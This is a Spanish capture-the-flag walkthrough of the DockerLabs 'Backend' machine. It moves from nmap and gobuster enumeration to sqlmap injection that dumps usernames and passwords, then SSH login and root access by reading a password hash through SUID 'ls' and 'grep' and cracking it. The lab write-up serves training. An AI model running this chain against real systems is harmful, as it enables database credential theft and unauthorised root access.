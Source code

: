 ![image](https://github.com/user-attachments/assets/2a915931-351e-461f-8241-422f9e434a2f)---
title: Backend - DockerLabs
published: true
categories: DockerLabs
---


| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | 4bytes            | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/c19c7d39-6cd4-4c9b-9c4e-92f19aea26f7)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `22` (SSH)
- `80` (HTTP)

A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p 22,80-sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/bd234e9e-017c-4e38-9ce1-33aee6a2459d)

# Exploración Web

Al acceder a la página web, observamos un panel de login.

![image](https://github.com/user-attachments/assets/cf41d47c-5035-41f4-9a2a-bd4953dd2cec)

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

 ![image](https://github.com/user-attachments/assets/a972521d-6dbc-4553-8fb4-5a06249c6da2)


## Inyeccion Sql

Como hemos visto ese panel de login y no hemos visto nada mas guardaremos la peticion en mi caso se llama `respuesta.req` y los datos que quiero que me modifique le pongo esto `*`.

![image](https://github.com/user-attachments/assets/0ef79e06-5155-44fd-b59b-f9484ada19b3)

A continuacion vamos a probar si es inyectable:
```bash
sqlmap -r respuesta.req -p searchitem --batch 
```
![image](https://github.com/user-attachments/assets/03841ef7-7f7d-4f08-9e6d-9fe4e2ecf42a)

Como podemos ver la iyeccion es efectva y con varios tipos de inyeccion ahora vamos a ver las base de datos que contiene.
```bash
sqlmap -r respuesta.req -p searchitem --batch --dbs
```
![image](https://github.com/user-attachments/assets/cef9b37f-7394-4dc5-9398-398c8ae589e8)

Ya que sabes las bases de datos vamos a ver la tablas de esa base de datos `users`.
```bash
sqlmap -r respuesta.req -p searchitem --batch -D users --tables
```
![image](https://github.com/user-attachments/assets/de4b02d3-fb3d-461e-9ed1-a7ad7a5ebcf3)

Vemos que contiene una tabla llamada `usuarios`, vamos a ver que contiene.
```bash
sqlmap -r respuesta.req -p searchitem --batch -D users -T usuarios --columns
```
![image](https://github.com/user-attachments/assets/73be9dae-dc05-43a2-8ba6-231e4c6674ac)

Por ultimo veremos que contiene esas columnas
```bash
sqlmap -r respuesta.req -p searchitem --batch -D users -T usuarios -C id,username,password --dump
```
![image](https://github.com/user-attachments/assets/17d42ce7-3e29-400c-9943-7f60dbfd7c65)

Por lo que si trata de una SQLi, luego de probarlos en la página y que ninguno nos sirva, podemos intentar probar si alguno es válido para el puerto 22 de ssh, por lo que simplemente probamos uno por uno ya que son 3, y vemos que el usuario `pepe` si tiene acceso.

![image](https://github.com/user-attachments/assets/498775ec-289d-4204-9e63-daef0f183f1b)

# Escalada de privilegios.

Vamos a hacer lo de siempre empezaremos viendo si podemos ejecutar el comando `sudo -l`.

![image](https://github.com/user-attachments/assets/64ad3de5-72f7-4133-ab37-d9016df87d8d)

Al parecer no podemos, lo que haremos sera buscar en el SUID.
```bash
find / -perm -4000 2>/dev/null
```
![image](https://github.com/user-attachments/assets/082fdc23-3de3-400d-88d9-5e8b6ba07164)

Como vemos, el binario `ls` y `grep` estan en el SUID, por lo que podriamos intentar leer la home de root usando ls- 

```bash
/usr/bin/ls root
```
![image](https://github.com/user-attachments/assets/3ec89a8d-58f0-4ee8-a051-87d4068adbd0)

Vemos que contiene un archivo llamado `pass.hash`, como no podemos usar `cat` usaremos el binario `grep` para ver el contenido del mismo. 
```bash
LFILE=/root/pass.hash
/usr/bin/grep '' $LFILE
```
![image](https://github.com/user-attachments/assets/4bfe7f58-79b8-4515-9d5a-65f7280ebc92)

Como por el nombre nos dice que es un hash usaremos la pagina [Crackstation](https://crackstation.net/) por si desde alli obtenemos lo que contiene la hash.

![image](https://github.com/user-attachments/assets/48bb451a-266d-4764-b44d-92ce9a969e8b)

Ya tenemos la contraseña en texto plano ahora solo hace falta porbarla con root para ver si tenemos acceso por el.

```bash
su root
```

Ya somos root.

![image](https://github.com/user-attachments/assets/30d2c010-e489-4c07-bbbb-33dcad8fb6b4)

